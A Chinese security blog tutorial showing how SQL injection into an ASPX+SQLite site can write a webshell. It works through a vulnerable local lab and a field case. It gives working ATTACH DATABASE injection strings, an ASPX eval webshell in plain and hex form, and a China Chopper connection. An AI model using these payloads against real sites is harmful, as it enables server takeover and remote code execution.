

SQLite手工注入Getshell技巧
0x01 前言
SQLite是一种嵌入式数据库，它的数据库就是一个文件。由于SQLite本身是C写的，而且体积很小，所以经常被集成到各种应用程序中，主要在手机的App中使用。
之前没有遇到过关于SQLite的注入，这次遇到一个在ASPX中使用SQLite数据库，并且存在注入。这篇文章将主要介绍一下从注入到获取WEBSHELL的过程和遇到的一些坑。
首先介绍一下SQLite的使用方法，然后在本地搭建环境以及利用注入获取WEBSHELL，最后将讲述在实际应用中遇到的问题以及如何解决（e.g.手工注入写shell）。
0x02 SQLite的使用
SQLite 的一个重要的特性是零配置的，这意味着不需要复杂的安装或管理。在 Windows 上使用SQLite时访问 SQLite下载页面，从 Windows 区下载预编译的二进制文件。现在最新的为sqlite-tools-win32-x86-3190300.zip，下载下来后解压。我这里将其中的文件复制到D:\sqlite目录。
SQLite的语法和其他数据库差不多，只不过SQLite的数据库是一个单独的文件。SQLite创建数据库的方法有两种，一种是创建，另外一种是附加。
创建使用命令：sqlite3.exe 数据库文件名。例如创建一个名字为aa.db的数据库，使用命令：sqlite3.exe aa.db。

附加数据库的基本语法是：ATTACH DATABASE 'DatabaseName' As 'Alias-Name';。如果数据库尚未被创建，这个命令将创建一个数据库，如果数据库已存在，则把数据库文件名称与逻辑数据库 ‘Alias-Name’ 绑定在一起。例如附加一个bb.db的数据库，别名为a，命令为：attach database 'd:\\sqlite\\bb.db' as 'a';。

创建表并插入数据的命令如下：
1 | create table a.tt(dataz text); INSERT into a.tt(dataz) VALUES ('test'); |

SQLite还可以生成任意后缀名的数据库文件。例如创建一个php结尾的数据库文件，新建一个名为exp的表，并在其中插入数据，内容为：<?php phpinfo();?>。
具体命令如下：
1 | sqlite>ATTACH DATABASE 'd:\\sqlite\\23.php' AS test ;create TABLE test.exp (dataz text) ; insert INTO test.exp (dataz) VALUES ('<?php phpinfo();?>');-- |

将生成的数据库文件23.php放在web目录，然后访问。发现数据库中插入的数据竟被解析了。

同样的方法生成aspx后缀的数据库文件，创建表，并插入<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>。然后将该文件放在IIS服务的web目录。发现其中的APSX代码也会被解析。

通过查看生成的数据库文件，发现其中表的内容都以原格式存储的，这就导致了表中的代码被解析的原因。接下来将在本地搭建一个ASPX+SQLite的web项目，演示一下如何通过SQL注入获取WEBSHELL。
0x03 本地环境搭建及获取SHELL
因为在实际应用中遇到的是.Net开发的web项目，所以这里也以ASPX程序为例。
1.环境搭建和项目的部署
下载安装 Sqlite ADO.NET，下载后直接安装即可。安装后将其中的System.Data.SQLite.DLL文件复制出来，在下面的项目中将会用到（分32和64位，根据自己的环境选择）。
这里我采用VS2013，新建一个ASP.NET网站，在项目中新建一个Bin文件夹和一个ASPX页面（这里名称为Default.aspx)，将上面复制出来的System.Data.SQLite.DLL文件放在Bin目录中。
其目录结构如图：

Default.aspx是显示页面，其中有一个文本框和按钮。主要代码：
1 | <form id="form1" runat="server"> |
Default.aspx.cs是代码的实现，代码如下：
1 | using System; |
然后将项目部署即可，这就是一个存在注入的项目。接下来就是利用注入来获取WEBSHELL。
2.SQL注入写WEBSHELL

当输入'时，项目报错，同时将web绝对路径暴露出来。

然后就根据上面SQLite创建ASPX格式的数据库的方式来写入一个WEBSHELL。
其语句为：
1 | ';ATTACH DATABASE 'c:\\WebSite\\css.aspx' AS pwn ;create TABLE pwn.exp (dataz text) ; insert INTO pwn.exp (dataz) VALUES ('<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>'); -- |


测试环境很顺利就通过SQL注入写入了WEBSHELL，但是在实际测试中并非如此顺利。接下来看看在实际应用中遇到的问题以及解决的方法。
0x04 实际中应用中遇到的问题及解决方法
已知：该系统存在SQL注入，数据库为SQLite，通过报错发现web项目的绝对路径。后台存在弱口令，后台可以上传图片格式文件。
直接利用SQLite写aspx文件时，发现可以写入成功，但是SHELL没有执行。无法判断是shell代码未写入成功还是未执行成功。然后就先写个TXT查看shell代码是否可以写入成功。
1 | ';ATTACH DATABASE 'd:\\********\\web\\24.txt' AS pwn ;create TABLE pwn.exp (dataz text) ; insert INTO pwn.exp (dataz) VALUES ('<%@ Page Language="Jscript"><%eval(Request.Item["pass"],"unsafe");%>'); -- |
然后直接访问根目录下的24.txt文件即可下载，下载后用SQLite数据库管理工具打开，这里用的是Navicat。

打开发现竟然是空的。然而将shell代码替换为字符串test时可以写入成功。那应该就是写入的SHELL中含有一些符号所致，这里尝试了转义都未能解决。
由于可以找到图片上传的入口，所以有这样一个思路：在本地生成一个格式为jpg的数据库文件，创建表并写入SHELL，然后上传到服务器；在网站上利用注入新建一个txt格式的数据库，创建表后将图片格式数据库的内容插入到txt格式数据库中。


提示数据库编码不一致，那就换另外一种方法。首先在web根目录生成一个jpg格式的数据库，创建表后下载；在本地打开后插入数据，之后上传到服务器；再在网站新建一个ASPX格式的数据库，创建表后将图片格式数据库的内容插入到ASPX格式数据库中。
1 | ';ATTACH DATABASE 'd:\\********\\web\\fp.jpg' AS pwn;create TABLE pwn.exp(dataz text);-- |


可以成功写入，但访问发现插入的ASPX代码被原样输出，SHELL未执行成功。然后来对比一下在web上生成和本地生成的文件有什么区别。
分别在本地和web上生成一个txt格式的数据库文件，新建表后插入test。然后对比其内容：

对比后发现网站生成的内容都多了一个空格。
有同事提议说用十六进制试试，然后将shell内容转换为十六进制后插入。然而在web上测试失败。

本地测试也失败。

经过搜索发现，SQLite中十六进制的写法为：x'....'，而不是0x....。
例如<%@ Page Language="Jscript"><%eval(Request.Item["pass"],"unsafe");%>在SQLite中的十六进制表示为：
1 | x'3c25402050616765204c616e67756167653d224a736372697074223e3c256576616c28526571756573742e4974656d5b2270617373225d2c22756e7361666522293b253e' |
成功写入shell

菜刀连接：

0x05 总结
通过以上的测试过程和实际利用，可以归纳两点：
1.SQLite可以创建任意格式的数据库文件，并且插入的代码可以根据文件格式来解析，这就造成了可以利用这种方式写WEBSHELL的原因。
2.SQLite中十六进制的写法为：x'....'，而不是0x....。
0x06 参考
[1]http://www.cnblogs.com/xiaozi/p/5760321.html
[2]https://sites.google.com/site/0x7674/home/sqlite3injectioncheatsheet
[3]http://blog.csdn.net/mazhaojuan/article/details/7660657